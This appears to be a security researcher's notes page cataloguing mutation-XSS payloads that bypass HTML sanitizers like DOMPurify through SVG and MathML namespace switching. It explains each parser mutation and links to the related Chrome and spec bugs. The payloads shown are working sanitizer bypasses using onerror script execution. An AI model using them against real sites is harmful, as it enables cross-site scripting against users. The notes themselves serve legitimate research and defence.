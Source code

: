  ### <svg></p> MXSS 2019 SecurityMB:

**Chrome bug:** https://issues.chromium.org/issues/40050167

**Switch:** SVG to HTML

**Payload:**
```html
	<svg></p><style><g title="</style><img src onerror=alert(1)>">
```
#### Description:
- `<svg><p>` gets parsed to: `<svg></svg><p></p>`
- However, interesting thing happens if you put closing tag `</p>` in `<svg>`:
- `<svg></p>` gets parsed to `<svg><p></p></svg>`.
- So now the opening `<p>` is within `<svg>` which means that it will get out eventually when it is written to the DOM tree.

**Links:**
- Spec bug: https://github.com/whatwg/html/issues/5113
- Chrome issue: https://issues.chromium.org/issues/40050167
- Blog: https://research.securitum.com/dompurify-bypass-using-mxss/

**Other variants:**
```html
<svg></p><textarea><title><style></textarea><img src=x onerror=alert(1)></style></title></svg>
or
<svg></p><textarea><desc><style></textarea><img src=x onerror=alert(1)></style></desc></svg>
<math></p><textarea><mi><style></textarea><img src=x onerror=alert(1)></mi></math>
```

### Namespace Switching MXSS SecurityMB 2020
**Payload**
```html
<form>
<math><mtext>
</form><form>
<mglyph>
<style></math><img src onerror=alert(1)>
```

**Description**
*HTML to SVG namespace Switch:* 
- The img tag ends up as a child of a style tag in the HTML namespace due to the presence of mtext during the first parsing stage. As a result, DOMPurify doesn't remove it. While this HTML isn’t immediately dangerous, it undergoes a mutation since form tags can't be nested in HTML. However, using a trick mentioned in the spec, it is possible to nest them during the first parsing stage. The parser mutates the form to conform to the spec.
- On the second pass, the nested form is removed, and the mglyph element ends up directly below the mtext, switching it to the MathML namespace. This also changes the style element to MathML. Since img tags are not allowed in foreign content (like MathML), it moves back to the HTML namespace and is eventually executed.

**Spec:** If the adjusted current node is a MathML text integration point and the token is a start tag whose tag name is neither "mglyph" nor "malignmark"
**Link:** https://html.spec.whatwg.org/multipage/parsing.html#tree-construction
